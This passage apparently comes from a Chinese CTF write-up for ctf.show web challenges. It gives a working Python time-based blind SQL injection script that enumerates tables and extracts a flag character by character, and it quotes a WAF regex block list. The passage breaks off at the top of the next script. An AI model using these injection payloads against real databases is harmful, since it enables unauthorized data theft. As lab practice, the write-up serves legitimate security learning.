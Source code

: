 ```python
LastEditTime: 2021-12-16 14:53:16
Description:  
'''
import requests

url = "http://1d0e7741-69a4-48e2-9e35-24b48f64ebd7.challenge.ctf.show/api/index.php"

flag = 'ctfshow{' 
# 爆数据库名 ctfshow_flagxca,ctfshow_info
# payload = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
# 爆表名 id,flagaabc,info
# payload = "select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagxca'"
# 爆字段
payload = "select flagaabc from ctfshow_flagxca"

for i in range(9, 46):
    # 查找ascii从32-128的所有字符
    low = 32
    high = 128
    # 二分查找 提升效率
    while True:
        mid = (low + high) >> 1
        if low == mid:  # low处对应字符即为数据库中的字符
            flag += str(chr(mid + 1))
            print('[*] {}'.format(flag))
            break
        
        data = {
            # 二分法查找字符，ascii值大则sleep
            'ip' : "1) or if(ascii(substr(({}), {}, 1)) > {}, (SELECT count(*) FROM information_schema.columns A join information_schema.columns B), 1)-- -".format(payload, i, mid),
            'debug' : 1
        }

        r = requests.post(url=url, data=data)
        r = r.elapsed.total_seconds() # 获取页面响应时间
        # print(r)
        if r > 0.3: #响应时间超过0.3s，证明查询成功
            low = mid # 查询成功，区间向右靠拢
        else:
            high = mid # 查询失败，区间向左靠拢
```
## web220（时间盲注）
```php
    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }  
```
这个题有两个坑点，一是过滤了concat，导致payload中不能用，这个卡了我好久，二是payload要记得limit呜呜呜，一个一个查
```python
'''
Author: KonDream
Date: 2021-12-16 14:55:32
LastEditors:  KonDream
LastEditTime: 2021-12-16 15:42:39
Description:  
'''
import requests

```